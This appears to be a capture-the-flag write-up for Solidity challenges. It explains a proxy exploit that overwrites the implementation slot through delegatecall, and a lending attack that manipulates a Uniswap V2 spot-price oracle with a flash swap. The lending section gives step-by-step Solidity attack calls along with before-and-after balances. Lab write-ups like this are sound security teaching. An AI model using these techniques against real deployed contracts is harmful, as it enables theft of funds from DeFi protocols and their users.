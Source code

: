 # Solution explanation

## Vault
Are you serious?

## Proxy
Important to know:
- Each etherium contract has its own storage, represented as array with 2^256 slots each of 32 bytes

Proxy contract uses predefined slot in its storage to store `_logic` address. It's slot:

**_IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc**

Executor contract has two slots:
- 0 slot: owner address
- 1 slot: player address

### 1. Proxy creation
In proxy constructor `constructor(address _logic, address _player)` contract writes **_logic** into its **_IMPLEMENTATION_SLOT**, then delegate calls **_logic**'s `initialize` function with **_player** parameter. After that Proxy contract's storage became:
- 0: someone who deployed it
- 1: player address (my)
- _IMPLEMENTATION_SLOT: _logic address

### 2. Note about proxy usage
When we call any function that does not exist in `Proxy`, it goes to `fallback()` that идеально копирует вызванную функцию, делегирует ее вызов имплементации и так же идеально возращает данные

### 3. Exploit
Main goal - to change `_logic` address, which is stored in _IMPLEMENTATION_SLOT, with our contract `isSolved() -> true`. If this is done, any Proxy call of `isSolved` will return true!

#### - Verify that `_logic` address is stored at _IMPLEMENTATION_SLOT using web3.js
![alt text](assets/proxy1.png)

#### - Deploy Executor contract with modified isSolved function (`AttackHelper.sol`)

#### - Call `execute` function of Proxy through `Attack.sol`

## Lending

### Initial state
```
TokenA (collateral token):
- Lending = 0
- Me = 100
- Pair = 500

TokenB (borrow token):
- Lending = 5000
- Me = 0 
- Pair = 500
```

### Vulnerability
The main vulnerability is in price oracle implementation. Lending contract uses current spot price from Uniswap V2 pool which can be easily manipulated through flash swaps

### Attack steps

1. Deposit all TokenA as collateral:
```solidity
// add 100 token A as collateral
token0.approve(address(lending), 100 * 1e18);
lending.addCollateral(100 * 1e18);
```

2. Do flash swap to manipulate TokenB price:
```solidity
// flash swap 490 tokens B. Pool: 10B / 500A  
pair.swap(0, 490 * 1e18, address(this), bytes("New Year 2025"));
```

After this swap reserves in pool became:
- TokenA: 500
- TokenB: 10

3. Update reserves to use new manipulated price:
```solidity
pair.sync();
```

4. Borrow all TokenB using manipulated low price:
```solidity
lending.borrow(5000 * 1e18);
```

At this point exchange rate is very low (10/500 = 0.02), which means we need much less collateral to borrow TokenB.

5. Return flash swapped tokens with fee:
```solidity
token1.transfer(address(pair), 600 * 1e18); // Return with fee (>> expected_fee, nobody cares)
```

### Final state
```
TokenA:
- Lending = 100 (locked as collateral)
- Me = 0
- Pair = 500

TokenB:
- Lending = 0 (borrowed all 5000)
- Me = ~4890 (5490 - 600 flash swap return)
- Pair = 610
```
The attack succeeds because lending protocol uses current Uniswap spot price instead of price from oracles :(